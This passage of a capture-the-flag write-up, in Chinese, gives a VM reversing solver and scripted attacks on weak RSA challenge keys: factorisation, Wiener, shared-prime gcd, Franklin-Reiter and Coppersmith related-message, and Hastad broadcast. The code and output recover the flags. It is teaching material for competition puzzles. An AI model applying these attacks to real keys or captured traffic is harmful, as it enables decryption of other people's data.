        int a8 = (i % 1000000000) / 100000000;
        int a9 = i / 1000000000;
        if( (a9 * 10000 + a8 * 1000 + a7 * 100 + a6 * 10 + a5) / (a4 * 10 + a3) != (a2 * 100 + a1 * 10 + a0))
        {
            return false;
        }
        if( (a9 * 10000 + a8 * 1000 + a7 * 100 + a6 * 10 + a5) % (a4 * 10 + a3) != (a5 * 10 + a0))
        {
            return false;
        }
        if((a7 + a6) != a8)
        {
            return false;
        }
        if(a6 != a3 || a6 != a2 || a2 != 2)
        {
            return false;
        }
        if(a5 != 4)
        {
            return false;
        }
        if(a8 != (2 * a5) || a0 != a8)
        {
            return false;
        }
        return true;
```
分析后可以得到最后的Flag是sctf{1863272258}。


### re500 (来自Nu1L)
这是一个 64 位 VM 的题,checker 是 main 函数,mod1、mod2 和 mod3 是三个子函数, 先是加载程序,然后分配寄存器和栈的空间


下面是指令对应的操作
80 mov reg, immediate
81 xor reg1, reg2 | xor reg1, immediate
82 push reg
83 pop reg
9A je
9B jmp
9C jne
9D call
A5 mov
A6 mov
A7 mov
B0 mov
B1 mov
B2 mov
B3 mov
C5 cmp
reg1, reg2+reg3
reg1, [reg2]
reg1, cs+[cs+0x20]+immediate [reg1], byte ptr [reg2]
reg1, [reg2] & immediate reg1, [reg2] | immediate
reg1, [reg2] / immediate
C6 ret
C7 mov reg1, reg2
E0 syscall
E1 malloc

第一个子函数 mod1 是输入,然后在 checker 也就是 main 函数验证输入的长度是不是 0x1D, 通过后调用 mod3 函数对输入做了三次处理,先是以输入值的每个字符为索引到 mod3_base_addr+0x600 的位置查表替换,然后再跟 mod3_base_addr+0x700 处的四个值循环 异或,之后把结果中每个值的高 4 位除以 0x10 之后再或 0x30,低 4 位或 0x30,最后与 mod3_base_addr+0x730 处的值比较,得到 flag 代码如下

```
第一个子函数 mod1 是输入,然后在 checker 也就是 main 函数验证输入的长度是不是 0x1D, 通过后调用 mod3 函数对输入做了三次处理,先是以输入值的每个字符为索引到 mod3_base_addr+0x600 的位置查表替换,然后再跟 mod3_base_addr+0x700 处的四个值循环 异或,之后把结果中每个值的高 4 位除以 0x10 之后再或 0x30,低 4 位或 0x30,最后与 mod3_base_addr+0x730 处的值比较,得到 flag 代码如下
#include <stdio.h>
#include <stdio.h>
int main() {
unsigned char table[256] = {
0x49, 0xB6, 0x2C, 0x2D, 0xAB, 0x8F, 0x36, 0x11, 0x32, 0xE7, 0x73, 0xF8, 0xF9, 0x4C, 0x26, 0xA3, 0x5B, 0xBB, 0xBC, 0xBD, 0xBE, 0x98, 0x99, 0x97, 0x9A, 0x9F, 0xA0, 0xDD, 0xE0, 0x74, 0x8A, 0x8B, 0x8C, 0xDE, 0xDF, 0x08, 0x62, 0xE5, 0xF1, 0xDB, 0x23, 0xF7, 0xA4, 0xCC, 0xCD, 0xC9, 0xC4, 0x75, 0xD6, 0xD3, 0x0C, 0x0D, 0x91, 0x1D, 0x1E, 0x0B, 0x14, 0xB2, 0x66, 0x67, 0x9D, 0x30, 0xEE, 0x53, 0x6B, 0x05, 0x6F, 0x70, 0x71, 0x76, 0x93, 0xEF, 0xF0, 0x51, 0x52, 0xC3, 0x58, 0xFA, 0xD8, 0x5F, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F, 0x00, 0x80, 0x0E, 0x0F, 0x10, 0xEC, 0xED, 0x35, 0x13, 0x21, 0xA2, 0x65, 0xB7, 0x4A, 0x57, 0xB5, 0x6D, 0x5C, 0x89, 0x5E, 0xAE, 0xAF, 0xB0, 0x12, 0xD5, 0x72, 0xC6, 0xD7, 0xE1, 0xA5, 0x46, 0x15, 0x16, 0x44, 0x43, 0xB4, 0x60, 0xE4, 0xC7, 0xC8, 0xBF, 0x85, 0x87, 0x09, 0x0A, 0x86, 0xC1, 0xAA, 0xC5, 0xC2, 0xD9, 0xDA, 0x94, 0x95, 0xD2, 0xFB, 0x1A, 0xFC, 0x19, 0x1B, 0xCB, 0x61, 0xE3, 0xCE, 0xCF, 0xD0, 0x3C, 0xF4, 0xF5, 0xE6, 0xD4, 0x68, 0x56, 0xAD, 0xCA, 0xD1, 0x96, 0x90, 0xB1, 0x22, 0xE8, 0xA6, 0x69, 0x83, 0x84, 0x31, 0xE9, 0x2A, 0x9E, 0xE2, 0x6A, 0x37, 0x2B, 0x33, 0x20, 0xAC, 0x54, 0x42, 0x45, 0x34, 0x81, 0x82, 0xEA, 0xEB, 0x38, 0x2E, 0x2F, 0x5A, 0x4E, 0x4F, 0x50, 0x1F, 0x8E, 0xF2, 0xF3, 0x3A, 0x3B, 0x07, 0x63, 0x5D, 0x9B, 0x24, 0x02, 0x04, 0x47, 0xB8, 0xB9, 0xBA, 0x6C, 0x48, 0x25, 0xC0, 0x92, 0x4B, 0x59, 0x77, 0x78, 0x4D, 0xA1, 0x39, 0x3D, 0x3E, 0x3F, 0x40, 0x41, 0x55, 0xB3, 0x01, 0xFD, 0xFE, 0xFF, 0x06, 0x03, 0x17, 0x18, 0xF6, 0x9C, 0x88, 0x64, 0x6E, 0x29, 0x8D, 0xDC, 0xA7, 0xA8, 0xA9, 0x27, 0x28, 0x1C
};
unsigned char final[58] = {
0x3D, 0x38, 0x31, 0x36, 0x30, 0x34, 0x31, 0x33, 0x3C, 0x34, 0x31, 0x3A, 0x37, 0x34, 0x3F, 0x30, 0x37, 0x33, 0x33, 0x31, 0x36, 0x34, 0x39, 0x33, 0x3F, 0x3C, 0x30, 0x3D, 0x36, 0x3B, 0x3E, 0x3D, 0x3E, 0x32, 0x36, 0x33, 0x31, 0x34, 0x38, 0x3D, 0x3B, 0x37, 0x3F, 0x37, 0x36, 0x3D, 0x39, 0x3E, 0x3A, 0x3F, 0x37, 0x35, 0x3A, 0x37, 0x35, 0x3E, 0x36, 0x33
};
unsigned char xor[4] = { 0xA4, 0x66, 0x79, 0x80
};
for (int j = 0; j < 29; j++) {
	unsigned char i;
	for (i = 32; i < 127; i++) {
	unsigned char key = table[i] ^ xor[j % 4];
	unsigned char high = ((key & 0xF0) / 0x10) | 0x30;
	unsigned char low = (key & 0x0F) | 0x30;
	if (high == final[j * 2] && low == final[j * 2 + 1]) {
		printf("%c", i); }
	}
}
	printf("\n");
	return 0;
}
```


## code

**writeup中引用了一些选手的题解，引用的地方已经注明来源，不一定能够保证是最简单的方法，但是力求解答简洁，提供多种思路和解法**

###RSA Attack 1
###level0
level0考察因数分解攻击（Factorization Attack），其中p或者q太小，可穷举分解模n。
题目给了公钥和加密文件。观察密文，发现密文经过base64编码为可见字符了。

用openssl解析公钥。
```bash
openssl rsa -inform PEM -in public.key -pubin -noout -text -modulus
```

可以看到公钥为2048位，e是65537，得到模的16进制数值。
我们首先尝试分解模n，打开[SageMathCloud](https://cloud.sagemath.com/)，使用在线sagemath分解n。
```python
factor(0x94A03E6E0EDCF2741052EF1EEAA889D6F98D011151DB5E909248FD390C708724D8983CF3331CBAC561C2CE2C5AF15E65B2B2469156B619D5D3B2A6BBA37D5693994D7E4C2FAA607B3EC8FC90B200624B53185BA2301060A821AB6157D7E7CC671B4DCD664C7DF11A2A1D5E5080C15E45123ABA4A5364D8721F844AAE5C5502E88E564D3870A51636D3BC143E2FAE2F3158BA00ABACC0C5BA443C297056016B57F5D752D731560BAB0AE68DAD0822A91FCB6E49CC014C12D2ABA3A597E51049197F69D93BC5535371001860CC691A06643B869470A9DA82FC546B0623432DB020EBB61B91355E53A6E5D89A84BB3046B89F63BC70062D59D862A5FD5CAB066881)
```
几分钟后，分解成功，得到p和q。
使用rsatool生成私钥。
```bash
rsatool.py -o private.pem -p 250527704258269 -q 74891071972884336452892671945839935839027130680745292701175368094445819328761543101567760612778187287503041052186054409602799660254304070752542327616415127619185118484301676127655806327719998855075907042722072624352495417865982621374198943186383488123852345021090112675763096388320624127451586578874243946255833495297552979177208715296225146999614483257176865867572412311362252398105201644557511678179053171328641678681062496129308882700731534684329411768904920421185529144505494827908706070460177001921614692189821267467546120600239688527687872217881231173729468019623441005792563703237475678063375349
```

解密密文之前先把密文用base64解码。
```bash
cat level1.passwd.enc | base64 -d > level1bin.passwd.enc
cat level1bin.passwd.enc
```

用openssl解密密文。
```bash
openssl rsautl -decrypt -in level1bin.passwd.enc -inkey private.pem -out level1.passwd
```
发现解密失败，提示填充检查失败。

我们尝试其他填充方式。
```bash
openssl rsautl -decrypt -in level1bin.passwd.enc -inkey private.pem -out level1.passwd -oaep
```
这一次解密成功，得到密码明文FaC5ori1ati0n_aTTA3k_p_tOO_sma11


> 其他解方式：也可以用其他的数学软件或者因数分解软件分解模n，一个因子很小，很快就能穷举出来。

###level1
level1考察因数分解攻击（Factorization Attack），其中p和q的差太小，可以穷举分解模n。
先用openssl解析公钥。
```bash
openssl rsa -inform PEM -in public.key -pubin -noout -text -modulus
```

这次sagemath分解很慢，可能不能分解n。p和q相近的情况要用费马分解（Fermat factorization），我们用yafu分解n。
```python
factor(0xC3265969E1ED74D2E0B49AD56A7C2F2A9EC371FF134B1037C06F561934C5CB1F6DC0E3573B47C4763E21A3B0111178D4EE4FE8992B15CBCBD773E4F9A62820FDDB8CEA16ED67C248126E4B01534A67CB22233B342EAF13EF9345162B009FE04BD190C92C279A34C33FD7EE40F5825039AA8CE9C27BF436E3389D0450DBA9B73F4B2AD68A2A5C872AEB7435986A9CE452CB9378D2DA3983F30CD1651E669C4056060D58FC41645E06DA83D03B064270DA3853E0543553CEDE794ABFF53BE5537F6C181267A9DE377D44655E680A78393DBB0022350EA394E694151A3D39C7500EB164A529A36941406994B00D1AEA9A122750EE1E3A19B72970B46D1E9D613E7D)
```
> 05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER,
05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER, ****************************
05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER, Starting factorization of 24635380199162576175626733825654993088774186468424341251485528171539392839329146412615013362980283492199482296250229443925899183941601282092332843476617277156184507685928193519623765855782976047363883665283424473545877969718710272046261654326391840252190462805782777380937446430987284386172226304759726517529843564412091984328980979115111158624673855166379221415935217206920980564900414671064827167187417932475583509599802648238573603298428445177957392893928492353538844661418085667022331283805225000341955464473332333141637604132197773189903937879276873131228814365139541968760521539920817629563995110317306270531197
05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER, using pretesting plan: normal
05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER, no tune info: using qs/gnfs crossover of 95 digits
05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER, ****************************
05/02/16 01:28:22 v1.34.5 @ XIAOCHECOMPUTER, Fermat method found factors:
05/02/16 01:28:27 v1.34.5 @ XIAOCHECOMPUTER, prp309 = 156956618844706820397012891168512561016172926274406409351605204875848894134762425857160007206769208250966468865321072899370821460169563046304363342283383730448855887559714662438206600780443071125634394511976108979417302078289773847706397371335621757603520669919857006339473738564640521800108990424511408496383
05/02/16 01:28:32 v1.34.5 @ XIAOCHECOMPUTER, prp309 = 156956618844706820397012891168512561016172926274406409351605204875848894134762425857160007206769208250966468865321072899370821460169563046304363342283383730448855887559714662438206600780443071125634394511976108979417302078289773847706397371335621757603520669919857006339473738564640521800108990424511408496259
05/02/16 01:28:32 v1.34.5 @ XIAOCHECOMPUTER, Total factoring time = 10.3495 seconds

很快分解成功，得到p 和q，用rsatool生成私钥，解密密文
```bash
rsatool.py -o private.pem -p 156956618844706820397012891168512561016172926274406409351605204875848894134762425857160007206769208250966468865321072899370821460169563046304363342283383730448855887559714662438206600780443071125634394511976108979417302078289773847706397371335621757603520669919857006339473738564640521800108990424511408496383 -q 156956618844706820397012891168512561016172926274406409351605204875848894134762425857160007206769208250966468865321072899370821460169563046304363342283383730448855887559714662438206600780443071125634394511976108979417302078289773847706397371335621757603520669919857006339473738564640521800108990424511408496259

openssl rsautl -decrypt -in level2.passwd.enc -inkey private.pem -out level2.passwd
```
得到明文密码fA35ORI11TLoN_Att1Ck_cL0sE_PrI8e_4acTorS

###level2
level2考察低解密指数攻击（Wiener’s Attack），e太大，可直接算出d。
先用openssl解析公钥。
```bash
openssl rsa -inform PEM -in public.key -pubin -noout -text -modulus
```
观察e很大，对应的d值小，可能是低解密指数攻击。
我们也可以看一下是否可以用Wiener攻击，当$d<\frac{1}{3}n^{\frac{1}{4}}$ ，且 $q<p<2q$时可以解出d。
```python
n = 310417953704722170730847224402877983815425243802949146921747155554873214220856824312098961643471840575991636613043700912852694476430642621109657293199766030858364981594359341335457943511388291654144608627164424697545853589150385759857708455254761227678476750080293606809444462895661894497915336651794981901683
d = 29897859398360008828023114464512538800655735360280670512160838259524245332403
>>> print d < n^(1/4)/3
True
```
证明可以用Wiener攻击，我们用[RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)输出私钥并解密密文。
```bash
~/RsaCtfTool-master/RsaCtfTool.py --publickey public.key --private > private.pem

openssl rsautl -decrypt -in level3.passwd.enc -inkey private.pem -out level3.passwd
```
得到明文密码wIe6ER1s_1TtA3k_e_t00_larg3

###RSA Attack 2
###level4
level4考察共享素数攻击，两个模共享一个素因子，可以用gcd快速算出模的共享素因子。
题目给了一个流量包syc_security_system_traffic2.pcap，分析流量包，可以看到10个明文TCP会话，会话中包含加密的公钥（n，e）和加密后的level5的密码。其中e都是65537。尝试CRT会发现不能使用CRT，原因是n并不都是互素的。
所以随机选取两个n，这里我们选取第4个和第5个会话，写个sage脚本得到p和q。事实上你会发现这里所有的n都不是互素的。
```python
def n2s(n):
    s = hex(n)[2:-1]
    if len(s) % 2 != 0:
        s = '0' + s
    return s.decode('hex')
n4 = 18674375108313094928585156581138941368570022222190945461284402673204018075354069827186085851309806592398721628845336840532779579197302984987661547245423180760958022898546496524249201679543421158842103496452861932183144343315925106154322066796612415616342291023962127055311307613898583850177922930685155351380500587263611591893137588708003711296496548004793832636078992866149115453883484010146248683416979269684197112659302912316105354447631916609587360103908746719586185593386794532066034112164661723748874045470225129298518385683561122623859924435600673501186244422907402943929464694448652074412105888867178867357727
n5 = 20071978783607427283823783012022286910630968751671103864055982304683197064862908267206049336732205051588820325894943126769930029619538705149178241710069113634567118672515743206769333625177879492557703359178528342489585156713623530654319500738508146831223487732824835005697932704427046675392714922683584376449203594641540794557871881581407228096642417744611261557101573050163285919971711214856243031354845945564837109657494523902296444463748723639109612438012590084771865377795409000586992732971594598355272609789079147061852664472115395344504822644651957496307894998467309347038349470471900776050769578152203349128951
c4 = 0xdf0da86b1c4a1baabec9ff00e2bbc0c7999b9e72296fee73032d6d2827f1245c3019c7676f06ff2b242069356947f4b8afd5a302df0585e5285be25a61a4ccbfece4f005a68a4fa6b784cb72fb06edc6b1f0bb94f5046ac7f4f7a8a1f5cd93d0deefa812709644a37d8953bfe29ae5d37db634c174a97bc39e154ba5f3caca0fe804db465dfc5b2540bd39f2679bcdc665268b29ed997fdddecd73db50f2f8ec414feea8c6ac69c2c09a65e42c518151f0b8a7c82752282345f800dd260e1092e396654059ba43cf7927368a90edbeccafd72f04f07303f28e31681da798edac001f4a1cbf171d743e7d0828f1e5496df56d26d5430c8d30eb6811e30a95a05
e = 65537

p4 = gcd(n4,n5)
print "p4 ",p4
q4 = n4/p4
phi = (p4-1)*(q4-1)
d4 = inverse_mod(e, phi)
print "d4 ", d4
m = pow(c4, d4, n4)
print "m=%s" % m
print "flag is", n2s(int(m))
```
> 输出
> p4 122281872221091773923842091258531471948886120336284482555605167683829690073110898673260712865021244633908982705290201598907538975692920305239961645109897081011524485706755794882283892011824006117276162119331970728229108731696164377808170099285659797066904706924125871571157672409051718751812724929680249712137
> d4  6741490161093420707621591155426189997085587618518021555282171641139110176614766285325779409434956042686747257531651194137129134141461942442026405637723225561492071101159826682136989220384176895449064293797065176213757297686977922189070384337718436014267394957595250988016085979480699380675946085678015326583529261698231541747086569234071423430985189446388814998544828207857096938271543765357816255481192803721960971154983114530633645357912519522707748997751078173544097540508760281294688624259285037541647681680285665764925563261712472866628151980131455557783523495011901799598999313171416019448378713542616187940113
> m=52143530977436434459394554878178104587800044338683044720647870425137654623333
> flag is sH1R3_PRlME_1N_rsA_iS_4ulnEra5le

其他解法：
> 来自队伍Nu1L: 

*注：出这些题目的时候我只是随机生成了一些1024位的素数，没有验证是不是强素数，所以出题的时候还要验证是否是强素数，要不然真的能被分解！！！*


###RSA Attack 3
###level3
level3可以使用相关消息攻击（Franklin-Reiter related-message attack），$M_1 = f(M_2) \bmod N$，f是一个已知的多项式。那么攻击者可以截获密文:$C_1, C_2$，在e较小时可以解出明文	。

我们有一个syc_security_system_traffic.pcap流量包文件，用wireshark打开，可以看到全部为TCP流量。Follow TCF flower，可以看到是个RSA加密传输的过程。

从这个过程可以的得到一些信息
>  我们每次给服务器发送一个公钥（n和e，以空格分隔）和我们的用户id，服务器把用户id加到转换成10进制的level4的密码的明文上，然后用发送的公钥加密这个数据，把加密后的密文编码成16进制发送回客户端。

我们观察到每次的加密过程，发现其中第0个过程中的公钥和第9个过程公钥完全相同，而且加密的密文是线性相关的，我们可以利用相关消息攻击恢复明文。
用sagemath写脚本，在[SageMathCloud](https://cloud.sagemath.com)在线运行得到结果。
```python
def n2s(n):
    s = hex(n)[2:-1]
    if len(s) % 2 != 0:
        s = '0' + s
    return s.decode('hex')
n = 25357901189172733149625332391537064578265003249917817682864120663898336510922113258397441378239342349767317285221295832462413300376704507936359046120943334215078540903962128719706077067557948218308700143138420408053500628616299338204718213283481833513373696170774425619886049408103217179262264003765695390547355624867951379789924247597370496546249898924648274419164899831191925127182066301237673243423539604219274397539786859420866329885285232179983055763704201023213087119895321260046617760702320473069743688778438854899409292527695993045482549594428191729963645157765855337481923730481041849389812984896044723939553
c1 = 0x547995f4e2f4c007e6bb2a6913a3d685974a72b05bec02e8c03ba64278c9347d8aaaff672ad8460a8cf5bffa5d787c72722fe4fe5a901e2531b3dbcb87e5aa19bbceecbf9f32eacefe81777d9bdca781b1ec8f8b68799b4aa4c6ad120506222c7f0c3e11b37dd0ce08381fabf9c14bc74929bf524645989ae2df77c8608d0512c1cc4150765ab8350843b57a2464f848d8e08
c2 = 0x547995f4e2f4c007e6bb2a6913a3d685974a72b05bec02e8c03ba64278c9347d8aaaff672ad8460a8cf5bffa5d787c5bb724d1cee07e221e028d9b8bc24360208840fbdfd4794733adcac45c38ad0225fde19a6a4c38e4207368f5902c871efdf1bdf4760b1a98ec1417893c8fce8389b6434c0fee73b13c284e8c9fb5c77e420a2b5b1a1c10b2a7a3545e95c1d47835c2718
e = 3
x = PolynomialRing(ZZ.quo(n*ZZ), 'x').gen()
f=(x+2614-1002)^e-c1
g=x^e-c2
a = f
b = g
run = True
while run:
    r = a % b
    if r == 0:
        c = rp.coeffs()
        messages = -pow(c[1], -1, n) * c[0]
        run = False
    rp = r
    a, b = b, r
messages -= 1002
print "flag is %s" % n2s(int(messages))
```

得到明文F4An8LIn_rElT3r_rELa53d_Me33Age_aTtaCk_e_I2_s7aLL


*其他解法：*
1. 来自Nu1L

	注意到这一组加密数据中有两个 n 是相同的，而且加密内容相关，并且大部分相同可进行 Coppersmith’ s Short Pad attack 和 Franklin-Reiter related messages attack
```python
from sage.all import *

e = 3
n1 = 25357901189172733149625332391537064578265003249917817682864120663898336510922113258397441378239342349767317285221295832462413300376704507936359046120943334215078540903962128719706077067557948218308700143138420408053500628616299338204718213283481833513373696170774425619886049408103217179262264003765695390547355624867951379789924247597370496546249898924648274419164899831191925127182066301237673243423539604219274397539786859420866329885285232179983055763704201023213087119895321260046617760702320473069743688778438854899409292527695993045482549594428191729963645157765855337481923730481041849389812984896044723939553
C1 = 21166198637119799018016204295250536166915856638919405261840915314988042873432620518577615132448448723327689478678755172462556682889571075891041516220834941489006219250712233683372349063466237177709867416916476985170093387554152232327527581466143780222560210446663108294424857649820851271308341178467886091578116410156922264637037227745852409331989620504
C2 = 21166198637119799018016204295250536166915856638919405261840915314988042873432620518577615132448448723327689478678792176422644662336966050363940635331361205793418179945076116432708809590928145030795258923206911694439533855629978563382617578406639244014003848531540613075972495030572800107200489470498647236710018970753334604604728734347799544201644707336

PRxy. < x, y > = PolynomialRing(Zmod(n1))
PRx. < xn > = PolynomialRing(Zmod(n1))
PRZZ. < xz, yz > = PolynomialRing(Zmod(n1))
g1 = x ** e - C1
g2 = (x + y) ** e - C2
q1 = g1.change_ring(PRZZ)
q2 = g2.change_ring(PRZZ)
h = q2.resultant(q1)

# need to switch to univariate polynomial ring
# because .small_roots is implemented only for univariate
h = h.univariate_polynomial()  # x is hopefully eliminated
h = h.change_ring(PRx).subs(y=xn)
h = h.monic()
roots = h.small_roots(X=2 ** 40, beta=0.3)
assert roots, "Failed1"
diff = roots[0]
if diff > 2 ** 32:
    diff = -diff
C1, C2 = C2, C1

print "Difference:", diff
# x = PRx.gen() # otherwise write xn
# x=1002
x = xn
g1 = x ** e - C1
g2 = (x + diff) ** e - C2

# gcd
while g2:
    g1, g2 = g2, g1 % g2
g = g1.monic()
assert g.degree() == 1, "Failed 2"

# g = xn - msg
msg = -g[0]

# convert to str
h = hex(int(msg))[2:].rstrip("L")
h = "0" * (len(h) % 2) + h
print h.decode("hex")
```
	2. 来自NeSE和一些其他队伍
Find the cubic root of one message and subtract it with corresponding user id.
*注：这道题出的有bug，模n选的太大了，明文太小，e太小，导致$m^e < n$，所以n并没有用到，直接开e次方在减去加上的user_id就可以求出明文了。*


###level5（题目中的level4）
*注：有些人问怎么两个题目有两个level4，这是因为原来出题是一个level一个level写的，准备一起组合，后来分开了所以才是这样*
level5考察广播攻击（Hastad’s Broadcast Attack），e较小，用相同的e和不同的n加密线性相关的详细可以用多个密文m和模n算出明文。
脚本如下：
```python
from scapy.all import *


def eea(a, b):
    """Extended Euclidean Algorithm for GCD"""
    v1 = [a, 1, 0]
    v2 = [b, 0, 1]
    while v2[0] <> 0:
        p = v1[0] // v2[0]  # floor division
        v2, v1 = map(lambda x, y: x - y, v1, [p * vi for vi in v2]), v2
    return v1


def inverse(m, k):
    """
    Return b such that b*m mod k = 1, or 0 if no solution
    """
    v = eea(m, k)
    return (v[0] == 1) * (v[1] % k)


def crt(ml, al):
    """
    Chinese Remainder Theorem:
    ms = list of pairwise relatively prime integers
    as = remainders when x is divided by ms
    (ai is 'each in as', mi 'each in ms')

    The solution for x modulo M (M = product of ms) will be:
    x = a1*M1*y1 + a2*M2*y2 + ... + ar*Mr*yr (mod M),
    where Mi = M/mi and yi = (Mi)^-1 (mod mi) for 1 <= i <= r.
    """

    M = reduce(lambda x, y: x * y, ml)  # multiply ml together
    Ms = [M / mi for mi in ml]  # list of all M/mi
    ys = [inverse(Mi, mi) for Mi, mi in zip(Ms, ml)]  # uses inverse,eea
    return reduce(lambda x, y: x + y, [ai * Mi * yi for ai, Mi, yi in zip(al, Ms, ys)]) % M


def root(x, n):
    """Finds the integer component of the n'th root of x,
    an integer such that y ** n <= x < (y + 1) ** n.
    """
    high = 1
    while high ** n < x:
        high *= 2
    low = high / 2
    while low < high:
        mid = (low + high) // 2
        if low < mid and mid ** n < x:
            low = mid
        elif high > mid and mid ** n > x:
            high = mid
        else:
            return mid
    return mid + 1


PA = 24L
FPA = 25L
packets = rdpcap('syc_security_system_traffic3.pcap')
client = '192.168.1.193'
list_n = []
list_m = []

for packet in packets:
    if packet[TCP].flags == PA or packet[TCP].flags == FPA:
        if packet[IP].dst == client:
            raw_data = packet[TCP].load
            if str(raw_data.split(' ')[0]) == 'encrypted':
                list_m.append(int(raw_data.split(' ')[3], 16))

        if packet[IP].src == client:
            raw_data = packet[TCP].load
            data = raw_data.split(' ')
            list_n.append(int(data[0]))

print len(list_n),len(list_m)
F = crt(list_n, list_m)
intflag = root(F, 19)
flag = hex(intflag)[2:-1].decode('hex')
print flag
```
解出flag为H1sTaDs_B40aDcadt_attaCk_e_are_same_and_smA9l
